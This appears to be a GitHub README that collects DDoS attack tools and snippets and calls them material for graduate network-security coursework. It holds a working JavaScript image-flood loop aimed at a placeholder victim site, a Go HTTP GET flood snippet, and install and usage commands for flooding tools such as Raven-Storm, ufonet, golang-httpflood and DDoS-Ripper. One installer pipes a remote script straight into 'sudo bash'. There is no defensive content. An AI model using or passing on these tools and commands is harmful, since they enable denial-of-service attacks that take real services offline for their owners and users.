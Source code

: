 # DDoS
Snippets of code and resources related to DDoS attacks for graduate coursework on network security

 ![DDoS All The Things](/logo.jpg)

## Table of Contents

- [imgflood](#imgflood-Layer-7-flood-attack)
- [Raven-Storm Toolkit](#Raven-Storm-Toolkit)
- [ufonet](#ufonet)
- [DDoS Infinite HTTP GET](#DDoS-Infinite-HTTP-GET)
- [Golang-httpflood](#Golang-httpflood)
- [DDoS-Ripper](#DDoS-Ripper)
- [DDoS Scripts](#DDoS-Scripts)

## imgflood Layer 7 flood attack
- Link: [An introduction to JavaScript-based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)

```
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```

## Raven-Storm Toolkit
- Link: [Raven-Storm Toolkit GitHub](https://github.com/Taguar258/Raven-Storm)

```
curl -s https://raw.githubusercontent.com/Taguar258/Raven-Storm/master/install.sh | sudo bash -s
```

## ufonet
- Link: [ufonet GitHub](https://github.com/epsylon/ufonet)

You can automatically get all required libraries using (as root):
```
python3 setup.py install
```
For manual installation, on Debian-based systems (ex: Ubuntu), run:
```
sudo apt-get install python3-pycurl python3-geoip python3-whois python3-crypto python3-requests python3-scapy libgeoip1 libgeoip-dev
```
On other systems such as: Kali, Ubuntu, ArchLinux, ParrotSec, Fedora, etc... also run:
```
pip3 install GeoIP
pip3 install python-geoip
pip3 install pygeoip
pip3 install requests
pip3 install pycrypto
pip3 install pycurl
pip3 install whois
pip3 install scapy-python3
```

## DDoS Infinite HTTP GET
- Link: [DDoS HTTP GET GitHub](https://github.com/Konstantin8105/DDoS)

```
func main() {
	workers := 100
	d, err := ddos.New("http://127.0.0.1:80", workers)
	if err != nil {
		panic(err)
	}
	d.Run()
	time.Sleep(time.Second)
	d.Stop()
	fmt.Println("DDoS attack server: http://127.0.0.1:80")
	// Output: DDoS attack server: http://127.0.0.1:80
}
```

## Golang-httpflood
- Link: [Golang-httpflood GitHub](https://github.com/Leeon123/golang-httpflood)

Install Golang
[Golang Download & Installation](https://go.dev/doc/install) 

Change Linux Resource Limit
```
ulimit -n 999999
```

Clone Repo
```
git clone https://github.com/Leeon123/golang-httpflood.git
```

Header.txt format
```
Accept: text/html
User-agent: Wget
Referer: http://google.com
```

Usage
```
cd golang-httpflood
go build httpflood.go
./httpflood  <url> <threads> <get/post> <seconds> <header.txt/nil>
```

## DDoS-Ripper
- Link: [DDoS-Ripper GitHub](https://github.com/palahsu/DDoS-Ripper)

```
sudo apt install git 
git clone https://github.com/palahsu/DDoS-Ripper.git 
cd DDoS-Ripper 
$ ls 
$ python3 DRipper.py OR python2 DRipper.py
```

## DDoS Scripts
- Link: [DDoS Scripts GitHub](https://github.com/PraneethKarnena/DDoS-Scripts)